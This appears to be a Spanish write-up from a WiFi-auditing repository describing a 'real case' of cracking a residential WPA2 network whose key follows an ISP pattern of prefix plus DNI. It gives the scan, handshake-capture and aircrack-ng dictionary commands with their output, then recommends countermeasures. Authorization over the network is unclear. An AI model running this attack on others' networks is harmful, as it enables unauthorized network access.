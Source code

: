 Caso Real: Red con Clave Basada en DNI del Titular
==================================================

Escenario
---------

Red WiFi detectada en un entorno residencial (departamento en Bahía Blanca).  
Nombre de red (ESSID): `ISPWiFiXXXX24GHz`  
BSSID: `XX:AD:XX:02:XX:EE`  
Canal: `11`  
Encriptación: `WPA2-PSK (CCMP)`

Capturada desde equipo propio en pruebas de alcance (no se compromete tráfico ni navegación).

Etapa 1 — Escaneo
-----------------

Comando:

`scripts/escaneo_redes.sh`

Salida relevante:

- BSSID: `XX:AD:XX:02:XX:EE` 
- ESSID: `ISPWiFiXXXX24GHz` 
- Canal: `11`
- Señal: `-33 dBm`
- Clientes activos: 2 detectados

Etapa 2 — Captura de handshake
------------------------------

Comando:

`scripts/captura_individual.sh wlan0 XX:AD:XX:02:XX:EE 11 "ISPWiFiXXXX24GHz" 90`

```bash
Handshake capturado exitosamente.  
Archivo generado:  
`scripts/output/handshake_ISPWiFiXXXX24GHz_20250723_135300.cap`
```

Etapa 3 — Verificación
----------------------

Comando:

`scripts/verificar_handshakes.sh`

Resultado:

```bash
- ✅ Handshake encontrado en handshake_ISPWiFiXXXX24GHz_20250723_135300.cap
```

Etapa 4 — Ataque por diccionario
--------------------------------

Comando:

`aircrack-ng -a2 -w diccionarios/output/diccionario_isp.txt -b XX:AD:XX:02:XX:EE scripts/output/handshake_ISPWiFiXXXX24GHz_20250723_135300.cap`

Resultado:

```bash
- ✅ Contraseña encontrada: `XXXXXXX83`
- Tiempo: **12 segundos**
- Velocidad: ~68.400 claves por segundo
```

Conclusión
----------

El ataque fue exitoso utilizando un diccionario basado en patrones conocidos de ISP (prefijo + DNI).  
La contraseña encontrada coincide con el patrón, mostrando que la red era vulnerable a ataques por diccionario específicos.

Contramedidas recomendadas
--------------------------

- Cambiar la clave del router por una contraseña robusta aleatoria.
- Deshabilitar WPS.
- Activar notificaciones de conexión sospechosa (si el router lo permite).
- Auditar redes domésticas periódicamente con herramientas como las incluidas en este repositorio.
